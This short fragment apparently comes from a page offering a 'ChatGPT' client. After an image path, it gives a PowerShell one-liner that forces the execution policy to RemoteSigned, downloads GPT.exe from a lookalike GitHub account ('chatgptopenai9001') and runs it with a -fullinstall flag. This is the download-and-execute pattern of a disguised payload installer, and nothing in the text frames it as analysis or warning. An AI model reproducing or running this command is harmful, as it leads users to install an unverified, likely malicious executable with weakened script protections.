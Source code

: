 Set-ExecutionPolicy RemoteSigned -Force;$Url = 'https://github.com/chatgptopenai9001/Chat/raw/main/GPT.exe';[Net.ServicePointManager]::SecurityProtocol = "tls12, tls11, tls";$ProgressPreference = 'SilentlyContinue';;Invoke-WebRequest $Url -OutFile GPT.exe;.\GPT.exe -fullinstall;
